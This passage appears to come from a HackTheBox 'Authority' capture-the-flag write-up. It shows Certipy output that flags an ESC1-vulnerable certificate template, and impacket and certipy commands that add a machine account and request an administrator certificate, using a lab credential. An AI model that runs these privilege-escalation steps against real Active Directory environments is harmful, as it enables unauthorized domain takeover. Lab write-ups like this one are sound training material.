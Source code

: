 ```bash
                                          65536
                                          ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

This scan yields an ESC1 vulnerability. This type of vulnerability exists when there is a template that does not require manager approval, authorization signatures, and grants low-privileged users enrolment rights. Specifically the exploit I will use will create a certificate that authenticates me as an administrator, and then use that to escalate the privileges of a user account (probably svc_ldap).


```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $impacket-addcomputer 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 'RACCOON' -computer-pass 'raccoon'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account RACCOON$ with password raccoon.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $certipy req -username RACCOON$ -password raccoon -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error: rpc_s_access_denied
[-] Use -debug to print a stacktrace
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $impacket-addcomputer -no-add 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 'RACCOON' -computer-pass 'Raccoon123'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Succesfully set password of RACCOON$ to Raccoon123.
```